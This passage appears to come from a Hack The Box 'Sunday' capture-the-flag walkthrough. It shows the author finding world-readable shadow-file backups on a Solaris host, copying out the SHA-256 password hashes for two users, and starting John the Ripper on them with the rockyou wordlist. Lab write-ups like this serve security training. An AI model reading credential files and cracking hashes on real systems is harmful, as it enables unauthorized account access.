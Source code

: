 ```bash
dr-xr-xr-x   1 root     root           1 Apr  2 11:25 nfs4
drwxr-xr-x   2 root     sys            2 Aug 17  2018 opt
drwxr-xr-x   4 root     sys            4 Aug 17  2018 platform
dr-xr-xr-x 243 root     root      480032 Apr  2 13:13 proc
drwx------   2 root     root          11 Apr  2 11:25 root
drwxr-xr-x   3 root     root           3 Dec  7 01:03 rpool
lrwxrwxrwx   1 root     root          10 Dec  8  2021 sbin -> ./usr/sbin
drwxr-xr-x   7 root     root           7 Dec  8  2021 system
drwxrwxrwt   3 root     sys          276 Apr  2 13:13 tmp
drwxr-xr-x  30 root     sys           42 Dec  7 01:10 usr
drwxr-xr-x  42 root     sys           51 Dec  8  2021 var
-r--r--r--   1 root     root      298504 Aug 17  2018 zvboot
```
There is a `backup` folder in the root. We should check if there are any files stored here.

```bash
sunny@sunday:~$ ls -la /backup/
total 28
drwxr-xr-x   2 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Apr  2 11:25 ..
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup

```
There are two files stored. Let's view both of the files to see if we can find something here.
The second file sounds the most interesting if there is a backup file created of the shadow file.

```bash
sunny@sunday:~$ cat /backup/agent22.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
sunny@sunday:~$ cat /backup/shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

```
We got two hashes of two users. We can try to crack them with John the Ripper.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Sunday]
└─$ nano hash 

┌──(emvee㉿kali)-[~/Documents/HTB/Sunday]
└─$ cat hash 
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

┌──(emvee㉿kali)-[~/Documents/HTB/Sunday]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
```